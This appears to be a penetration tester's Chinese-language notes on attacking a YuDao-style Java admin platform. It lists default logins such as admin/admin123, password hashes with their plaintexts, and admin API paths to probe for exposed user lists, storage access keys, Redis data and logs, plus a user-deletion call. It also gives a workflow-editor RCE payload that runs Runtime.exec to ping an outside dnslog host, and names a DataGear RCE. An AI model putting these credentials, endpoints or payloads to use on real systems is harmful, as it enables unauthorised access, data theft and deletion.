 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



可能未授权查看
/admin/applications



存储桶，存储位置，aksk
/admin-api/infra/file-config/page
文件列表
/admin-api/infra/file/page?pageNo=1&pageSize=100

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create
/infra/data-source-config
可能前后端分离


redis信息
有redis配置文件位置
/prod-api/admin-api/infra/redis/get-monitor-info


java
/admin-api/infra/config/get-value-by-key?key=url.spring-boot-admi

文档
/v3/api-docs/swagger-config
/v3/api-docs/all

初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page

/admin-api/system/operate-log/page
/admin-api/system/login-log/page


操作日志，无用
/admin-api/web-api/system/dict/data/list-all-simple


用户列表(部分)
/admin-api/web-api/selfcom/user/list
/web-api/selfcom/user/list



删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE


